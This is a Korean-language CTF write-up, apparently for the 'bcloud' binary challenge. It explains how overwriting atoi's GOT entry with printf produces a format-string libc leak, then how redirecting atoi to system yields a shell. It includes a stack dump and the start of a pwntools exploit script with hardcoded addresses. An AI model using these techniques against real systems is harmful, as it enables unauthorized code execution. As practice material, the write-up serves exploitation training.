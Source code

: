 바로 이부분인데요 atoi를 printf로 덮었다고 친다면 이렇게 작동하게 됩니다.

	
	int get_atoi()
	{
  	char nptr; // [esp+18h] [ebp-20h]
  	unsigned int v2; // [esp+2Ch] [ebp-Ch]
	
  	v2 = __readgsdword(0x14u);
  	get_read((int)&nptr, 16, 10);
  	return printf(&nptr);
	}

앞에서 언급한것 처럼 printf의 return값은 출력한 글자수 입니다. 예를들어 nptr에 "A"를 read로 입력했다 한다면 printf에 의해서 "A"가 출력될 것이고 return 1;이 될것입니다.  

그래서 결국에는 원하는 메뉴를 탐색할 수 있는 기능(즉 atoi의 기능)을 해치지 않고 printf를 이용할 수 있게 되었습니다.  


__이런것을 보면 참 atoi라는 함수는 익스플로잇에 많이 쓰이는 것 같네요__  

함수를 호출하고 하다보면 스택에 라이브러리 주소가 남아있곤 합니다.

	[------------------------------------stack-------------------------------------]
	0000| 0xffe37370 --> 0xffe37388 ("%x%x %x")
	0004| 0xffe37374 --> 0x10 
	0008| 0xffe37378 --> 0xa ('\n')
	0012| 0xffe3737c --> 0xf762a696 (<__printf+38>:	add    esp,0x1c)
	0016| 0xffe37380 --> 0xf7793d60 --> 0xfbad2887 
	0020| 0xffe37384 --> 0x6 
	0024| 0xffe37388 ("%x%x %x")
	0028| 0xffe3738c --> 0x782520 (' %x')
	[------------------------------------------------------------------------------]

이를 이용해서 방금 atoi를 덮은 printf로 포맷스트링버그를 유발합니다. 위에 스택을 보시면 아시겠지만 인자로 "%x%x %x"를 주었습니다. 그렇게 되면 이와같이 출력됩니다.  
`10a f75b1696` <__printf+38>의 부분이 출력되었는데요, 이를 통해 offset계산을 하여 system의 주소를 구할 수 있습니다.   
그런뒤 editnote를 통해 atoi의 got를 system으로 조작해준뒤 nptr에 "/bin/sh"를 주게되면 쉘이 따지는 것을 확인할 수 있었습니다.

## Exploit Code

	context.log_level='debug'
	one = 0x3ac5c
	atoi_got   = 0x804B03C
	printf_plt = 0x80484d0
	s = process('./bcloud')
	def makenote(length,text):
        s.sendline('1')
        s.sendline(str(length))
        s.send(text)
	def editnote(ID,text):
        s.sendline('3')
        s.sendline(ID)
        print "sending : ",text
        s.send(text)
	raw_input('go')
